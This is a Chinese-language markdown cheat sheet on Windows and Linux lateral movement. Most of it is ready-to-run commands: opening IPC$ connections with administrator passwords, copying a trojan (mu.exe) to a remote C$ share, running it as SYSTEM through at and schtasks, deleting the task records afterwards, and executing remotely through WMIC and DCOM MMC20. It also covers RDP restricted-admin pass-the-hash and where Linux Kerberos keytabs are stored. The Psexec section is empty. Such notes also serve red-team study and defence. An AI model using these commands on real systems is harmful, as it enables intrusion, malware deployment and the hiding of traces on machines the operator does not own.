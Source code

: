 - [IPC&计划任务](#ipc计划任务)
  - [at命令](#at命令)
  - [schtasks命令](#schtasks命令)
- [Psexec](#psexec)
- [WMI](#wmi)
- [DCOM](#dcom)
- [RDP](#rdp)
- [Linux](#linux)
      - [Linux Kerberos 票据](#linux-kerberos-票据)
<a name="szASS"></a>
## IPC&计划任务
条件: 139,445端口<br />建立IPC连接<br />`net use \\192.168.100.190\ipc$ "password" /user:administrator`

1. net time \\192.168.100.190 获取目标系统时间
1. copy命令将马复制到目标主机,`copy mu.exe \\192.168.100.190\C$`
<a name="ysvaC"></a>
### at命令

1. at \\192.168.100.190 1:00PM C:\mu.exe
1. 清除at记录`at \\192.168.100.198 7(任务创建后得到的ID号) /delete`
<a name="gxM9R"></a>
### schtasks命令
已建立IPC

1. `schtasks /create /s 192.168.100.198 /tn test /sc onstart /tr c:\mu.exe /ru system /f`
1. `schtasks /run /s 192.168.100.198 /i /tn "test"`
1. `schtasks /delete /s 192.168.100.190 /tn "test" /f`

使用账号密码<br />/u:administrator<br />/p:"password"<br />/f:强制删除<br />删除ipc$<br />`net use 名称 /del /y`
<a name="xFNjD"></a>
## Psexec


<a name="KjocK"></a>
## WMI
`wmic /node:192.168.100.190 /user:administrator /password:123456789 process call create "cmd.exe /c ipconfig > ip.txt"`<br />wmic命令无回显,可通过ipc$连接将结果写到文件读取
<a name="nbcZk"></a>
## DCOM

1. 建立ipc$连接后
1. `$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.100.205"))`
1. `$com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null," /c calc.exe","")`
<a name="AojwG"></a>
## RDP
1.在Win8.1和win2012R2以前,RDP连接传输使用明文密码,并且该密码会被存储在远程主机的Lsass.exe进程中,之后引入了受限管理模式,该模式下不再传输普通凭据,从而可以进行Pass tha hash/ticket攻击,但用户必须是管理员权限且不是Protected User group的用户
<a name="wnW8S"></a>
## Linux
如果该计算机是域的一部分,可以使用SSH来请求Kerberos验证,通过启用GSSAPI进行身份验证(-o GSSAPIAuthentication=yes)
<a name="maxM6"></a>
##### Linux Kerberos 票据
位置:

- `/etc/krb5.keytab`.
- 环境变量KRB5_KTNAME,KRB5_CLIENT_KTNAME指定的值.
- [Kerberos 配置文件](https://web.mit.edu/kerberos/krb5-1.12/doc/admin/conf_files/krb5_conf.html)中指定的/etc/krb5.conf.

